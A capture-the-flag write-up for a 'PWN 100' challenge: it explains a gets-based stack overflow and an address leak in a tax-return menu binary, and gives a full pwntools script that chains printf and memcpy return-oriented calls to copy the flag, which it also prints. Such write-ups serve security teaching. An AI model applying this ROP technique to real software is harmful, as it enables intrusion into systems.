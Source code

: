 ## IRS (PWN 100)

by droofe

When running the binary, I started by noticing that Mr. Trumps tax return was already filed. Hm? Lets go ahead and try to open it!

```Welcome to the IRS!
How may we serve you today?
1. File a tax return
2. Delete a tax return
3. Edit a tax return
4. View a tax return
5. Exit

Tax returns on file:
0 - Donald Trump
4
Enter the name of the file to view: Donald Trump
Enter the password: ...
```

Password protected... okay awesome. After messing around and filing a few tax returns on my own, the program complained after I had made four additional returns, saying "blah blah blah, if this problem persists call us at 0xf7d35678". 

WOW! A free leak already. So, I decided to drop the binary into IDA and see what I was dealing with.

After some analysis, I saw that the binary started off and malloc'ed a space for Donald Trumps tax return and put the flag as the password. Awesome, goal: find the password to his tax return.

### Vulnerability
The vulnerability comes into play if you try to edit your tax return. After editing the tax return, it asks you to confirm, prompting you for [y/n], which is read in by none other than `gets`. Turns out the pointer given above was a pointer to the spot on the stack that holds the malloc'ed address of Trumps Tax return. Using the gets stack control, I used printf to leak that address with my first edit, and then memcpy to move the password to the name field with the second edit.

```python
from pwn import *
from time import sleep

s = 0

def fileReturn(name, password, income, deduc):
	s.sendline("1")
	for item in [name, password, income, deduc]:
		s.recvuntil(": ")
		s.sendline(item)
	garbage = s.recvuntil("!")
	menu = s.recv(1024)

def editReturn(name, password, income, deduc, payload, time=1):
	s.sendline("3")
	for item in [name, password, income, deduc]:
		s.recvuntil(": ")
		s.sendline(item)
	for item in payload:
		s.send(item)
	s.sendline("")
	s.recvuntil("recorded!")
	s.recv(2)

	if time==1:
		return int(s.recvuntil("\n")[:4][::-1].encode('hex'),16)

def getStackAddress():
	s.sendline("1")
	s.recvuntil(": ")
	address = int((s.recvuntil("\n").strip()[2::]),16)
	menu = s.recv(1024)
	return address

#s = process("./irs", env={"LD_LIBRARY_PATH": "."})
s = remote("irs.pwn.republican", 4127)
#e = ELF("./irs")

#raw_input("Waiting...")

menu = s.recv(1024)

fileReturn("edwood", "password1", "100", "100")
fileReturn("edwood", "password2", "100", "100")
fileReturn("edwood", "password3", "100", "100")
fileReturn("edwood", "password4", "100", "100")

stackAddr = getStackAddress()
ebp = stackAddr + 0x30
log.info("Stack address {:x}".format(stackAddr))
log.info("EBP address {:x}".format(ebp))

payload = ['A'*21,
			p32(ebp),
			p32(0x080484D0), #call to printf
			p32(0x08048AFD), #ret to main
			p32(stackAddr),
			]

my_heapaddr = editReturn("edwood", "password1", "100", "100", payload)

their_heapaddr_name = my_heapaddr
their_heapaddr_flag = their_heapaddr_name + 50

log.info("Name at {:x}".format(their_heapaddr_name))
log.info("Flag at {:x}".format(their_heapaddr_flag))

payload = ['A'*21,
			p32(ebp),
			p32(0x08048528), #call to memcpy
			p32(0x08048AFD), #ret to main
			p32(their_heapaddr_name), #dst
			p32(their_heapaddr_flag), #src
			p32(50) #len
			]


editReturn("edwood", "password1", "100", "100", payload, time=2)
s.interactive()


# flag{c4n_1_g3t_a_r3fund}
```

